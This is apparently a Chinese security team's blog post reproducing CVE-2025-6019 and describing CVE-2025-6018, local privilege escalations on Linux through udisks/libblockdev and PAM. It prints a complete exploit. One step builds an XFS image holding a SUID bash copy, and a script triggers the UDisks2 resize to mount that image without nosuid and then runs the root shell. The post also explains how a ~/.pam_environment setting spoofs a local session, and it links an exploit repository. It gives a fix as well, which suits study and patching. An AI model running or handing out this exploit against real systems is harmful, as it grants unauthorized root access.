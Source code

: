 #  CVE-2025-6018 and CVE-2025-6019 本地提权  
原创 星盟@Neko205  星盟安全   2025-07-08 02:35  
  
01 漏洞介绍   
  
—  
  
  
CVE-2025-6018: 在 openSUSE 15 的 PAM 中从无特权用户到 allow_active 的本地权限提升  
  
CVE-2025-6019:   
通过 udisks 利用 libblockdev  
 从 allow_active 到 root 的本地权限提升  
  
  
  
02   
CVE-2025-6019  
本地复现   
  
—  
  
  
  
根据Qualys安全公告不难知道这个CVE的问题出现在xfs文件系统临时挂载的操作上，没有正确使用nosuid，从而导致的问题出现  
  
  
先构建一个xfs的镜像，在其中放入bash  
```
dd if=/dev/zero of=xfs.image bs=1M count=300
# XFS
mkfs.xfs -f xfs.image
sudo mkdir -p /mnt/malicious_image
sudo mount -t xfs xfs.image /mnt/malicious_image
# SUID Shell
sudo cp /bin/bash /mnt/malicious_image/root-shell
sudo chmod 4755 /mnt/malicious_image/root-shell
sudo umount /mnt/malicious_image
sudo rmdir /mnt/malicious_image
echo "ok"
```  
  
调用脚本  
  
```
echo "当前用户: $(whoami)"
id
# yes
gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
killall -KILL gvfs-udisks2-volume-monitor &>/dev/null
# loop 设备
udisksctl loop-setup --file ~/xfs.image
# 启动后台进程
while true; do /tmp/blockdev*/root-shell -c 'sleep 5' && break; done &>/dev/null &
# UDisks2 触发漏洞
gdbus call --system --dest org.freedesktop.UDisks2 \
    --object-path /org/freedesktop/UDisks2/block_devices/loop0 \
    --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}' &>/dev/null
# 等待
sleep 2
# 查找并执行 SUID Shell
ROOT_SHELL_PATH=$(find /tmp -name "root-shell" -perm -4000 2>/dev/null | head -n 1)
if [ -n "$ROOT_SHELL_PATH" ]; then
    echo "成功找到 Root Shell: $ROOT_SHELL_PATH"
    echo "正在提权..."
    ${ROOT_SHELL_PATH} -p
else
    echo "错误: 未找到 SUID Shell，提权失败。"
fi
```  
  
  
若成功则效果如下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXTrvVicanTmtlTjx7jiaYsSyDZ6rgOzibPVIJFQy5CriaNpAsTUylOHiaqcIglbL6c5fyvAB6DhM0Z7hEA/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到euid已经为root  
  
  
修复建议：  
  
将libblockdev更新到3.3.1以上  
  
  
  
0  
3 CVE-2025-6018  
  
—  
  
  
  
  
CVE-2025-6018需要openSUSE的环境，我手上没有相关环境，遂只尝试说明问题  
  
在ssh远程的情况下，这个漏洞无法直接使用，原因是Polkit的权限管理  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXTrvVicanTmtlTjx7jiaYsSyDkPfOibcZkNjNTlTicXldx4sHNAbGNlg8eVo5bsgjxXyom5tQhbj2LsMA/640?wx_fmt=png&from=appmsg "")  
  
  
以reboot策略为例  
```
<action id="org.freedesktop.login1.reboot">
                <description gettext-domain="systemd">Reboot the system</description>
                <message gettext-domain="systemd">Authentication is required to reboot the system.</message>
                <defaults>
                        <allow_any>auth_admin_keep</allow_any>
                        <allow_inactive>auth_admin_keep</allow_inactive>
                        <allow_active>yes</allow_active>
                </defaults>
                <annotate key="org.freedesktop.policykit.imply">org.freedesktop.login1.set-wall-message</annotate>
</action>
```  
  
  
其中<allow_active>yes</allow_active>控制本地，假设请求来自一个本地的活跃会话则允许操作<allow_any>auth_admin_keep</allow_any>控制其他会话，若请求来自除了本地的活跃会话外的其他会话则需要admin授权  
  
  
假设我们在ssh会话中尝试 会触发Polkit会话控制，效果如下  
  
```
(ssh)neko@aosc-neko205 [ tmp ] $ bash 22.sh 
当前用户: neko
uid=1000(neko) gid=1001(neko) 组=1001(neko),11(audio),12(video),15(cdrom),974(ollama),997(wheel),999(plugdev),1002(gamemode)
('challenge',)
==== AUTHENTICATING FOR org.freedesktop.udisks2.loop-setup ====
设定回环设备需要身份验证
Authenticating as: neko
Password: 
```  
  
  
而opensuse的问题也就出在这里，根据Qualys安全公告说明假设构造一个~/.pam_environment 其中内容为XDG_SEAT=seat0 XDG_VTNR=1 则无管理员权限的攻击者可以通过ssh登入，伪装为本地用户，即Polkit语境下的allow_active权限，从而进行CVE-2025-6019的利用完成提权  
  
  
  
   
04 CVE-20  
25-6019 EXP  
  
—  
  
```
https://github.com/neko205-mx/CVE-2025-6019_Exploit
```  
  
  
  
参考文档：  
  
https://cdn2.qualys.com/2025/06/17/suse15-pam-udisks-lpe.txt  
  
https://wiki.archlinuxcn.org/wiki/Polkit  
  
**文末:**  
  
欢迎师傅们加入我们:  
  
星盟安全团队纳新群1:  
222328705  
  
星盟安全团队纳新群2:  
346014666  
  
有兴趣的师傅欢迎一起来讨论!  
  
PS:团队纳新简历投递邮箱：  
  
xmcve@qq.com  
  
责任编辑：@Neko205  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXQ5lXrsExLI9KSjQDicKM6nvZRmw9LnopcJictzf6wMDosnAWMltzcRTvM7rwmibzIy4zvDEibpFFL5CQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EEDM9NXhOXRyX2qIp8K3IeQUpoicOSe9I56ooEW8n8QF0Aaw7oZYqCnB8TPW0q8xYPfAb5Pnh97OFHwWjJm7khA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
